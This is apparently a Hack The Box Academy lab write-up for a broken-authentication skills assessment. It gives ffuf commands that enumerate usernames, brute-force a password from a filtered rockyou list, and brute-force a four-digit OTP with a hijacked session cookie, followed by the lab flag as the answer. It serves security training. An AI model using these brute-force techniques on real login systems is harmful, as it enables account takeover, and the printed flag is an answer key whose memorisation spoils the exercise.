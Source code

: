 # [Broken Authentication](https://academy.hackthebox.com/module/details/80)

## Skills Assessment

You are tasked to perform a security assessment of a client's web application. For the assessment, the client has not provided you with credentials. Apply what you have learned in this module to obtain the flag.

### Questions

#### Question #01

**Question**

Obtain the flag.

![Firefox - Register](./assets/screenshots/broken_authentication_firefox_register.png)

![Firefox - Password Policy](./assets/screenshots/broken_authentication_firefox_password_policy.png)

![Firefox - Login Registered Account](./assets/screenshots/broken_authentication_firefox_login_registered_account.png)

![Firefox - Profile](./assets/screenshots/broken_authentication_firefox_profile.png)

![Firefox - Login Attempt 1](./assets/screenshots/broken_authentication_firefox_login_attempt_1.png)

![Firefox - Login Attempt 2](./assets/screenshots/broken_authentication_firefox_login_attempt_2.png)

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-qjsisqe9i2]─[~]
└──╼ [★]$ ffuf -w /opt/useful/seclists/Usernames/xato-net-10-million-usernames.txt -u http://83.136.253.105:53072/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown username"

[SNIP]

gladys                  [Status: 200, Size: 4344, Words: 680, Lines: 91, Duration: 17ms]

[SNIP]
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-qjsisqe9i2]─[~]
└──╼ [★]$ wc -l /usr/share/wordlists/rockyou.txt 

14344392 /usr/share/wordlists/rockyou.txt

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-qjsisqe9i2]─[~]
└──╼ [★]$ grep -E '^[a-zA-Z0-9]{12}$' /usr/share/wordlists/rockyou.txt | grep '[[:upper:]]' | grep '[[:lower:]]' | grep '[[:digit:]]' > custom_passwords.txt

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-qjsisqe9i2]─[~]
└──╼ [★]$ wc -l custom_passwords.txt 

17048 custom_passwords.txt
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-qjsisqe9i2]─[~]
└──╼ [★]$ ffuf -w custom_passwords.txt -u http://83.136.253.105:53072/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=gladys&password=FUZZ" -fr "Invalid credentials"

[SNIP]

dWinaldasD13            [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 17ms]

[SNIP]
```

![Firefox - Login Admin User](./assets/screenshots/broken_authentication_firefox_login_admin_user.png)

![Burp Suite - Login Admin User Cookie](./assets/screenshots/broken_authentication_burpsuite_login_admin_user_cookie.png)

![Firefox - OTP Page](./assets/screenshots/broken_authentication_firefox_otp_page.png)

![Burp Suite - OTP](./assets/screenshots/broken_authentication_burpsuite_otp.png)

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-qjsisqe9i2]─[~]
└──╼ [★]$ seq -w 0 9999 > tokens.txt

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-qjsisqe9i2]─[~]
└──╼ [★]$ ffuf -w tokens.txt -u http://83.136.253.105:53072/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -H "Cookie: PHPSESSID=s73vq3i7a692sm0kdg5mu9lfp5" -d "otp=FUZZ" -fr "Invalid OTP"

[SNIP]
❌
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-qjsisqe9i2]─[~]
└──╼ [★]$ curl http://83.136.253.105:53072/profile.php -X GET -H "Cookie: PHPSESSID=s73vq3i7a692sm0kdg5mu9lfp5"

[SNIP]

      HTB{d86115e037388d0fa29280b737fd9171}

[SNIP]
```

**Answer**

```
HTB{d86115e037388d0fa29280b737fd9171}
```

---
---
